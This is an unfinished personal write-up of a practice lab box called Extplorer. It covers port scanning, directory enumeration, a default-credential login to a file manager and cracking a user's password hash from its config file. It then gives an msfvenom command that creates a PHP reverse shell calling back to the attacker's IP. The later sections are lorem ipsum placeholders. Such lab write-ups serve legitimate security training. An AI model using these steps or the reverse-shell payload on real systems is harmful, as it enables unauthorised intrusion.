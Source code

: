 ```yaml
---
Date: 2024-10-07
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: In progress
IP: 192.168.137.16
Writeup:
---
```

# Extplorer


# Resolution summary
- Text
- Text
## Improved skills
- skill 1
- skill 2
## Used tools
- nmap
- gobuster

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN extplorer.nmap 192.168.137.16 -v
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
# Enumeration
## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 80 - HTTP (Apache)
- Navigated to `http://192.168.137.16:80` and redirected to `http://192.168.137.16/wp-admin-setup-config.php`
![[Pasted image 20241007200559.png]]
- Clicked "Let's go!" and setup Admin config
![[Pasted image 20241007200736.png]]
- Error message received
![[Pasted image 20241007200814.png]]
- Enumerated web directories with `gobuster` 
![[Pasted image 20241007201438.png]]
- Identified `filemanager` directory & navigated to `http:192.168.137.16/filemanager`
![[Pasted image 20241007201218.png]]
- Password guessed `admin:admin` credentials and logged into Admin panel
![[Pasted image 20241007201309.png]]
- Clicked "OK" and identified `dora` user from new pop-up
![[Pasted image 20241007201413.png]]
- Checked `filemanager/config/.htusers.php` and found `dora` password hash `$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS`
![[Pasted image 20241007203309.png]]
- Ran `john` against password hash for `dora` and found credential `dora:doraemon`
![[Pasted image 20241007203751.png]]

---
# Exploitation
## Name of the technique
- Identified option to upload files to Admin dashboard
![[Pasted image 20241007202007.png]]
- Created PHP reverse shell file with MSFVenom: `msfvenom -p php/reverse_php LHOST=192.168.45.160 LPORT=4444 -o shell.php`
- Attempted to navigate to `192.168.137.16/filemanager/shell.php` and caught reverse shell
- ![[Pasted image 20241007225053.png]]
---
# Lateral Movement to user
## Local Enumeration


## Lateral Movement vector


---
# Privilege Escalation
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Privilege Escalation vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---
# Trophy & Loot
`local.txt` = ` `
`root.txt` = ` `
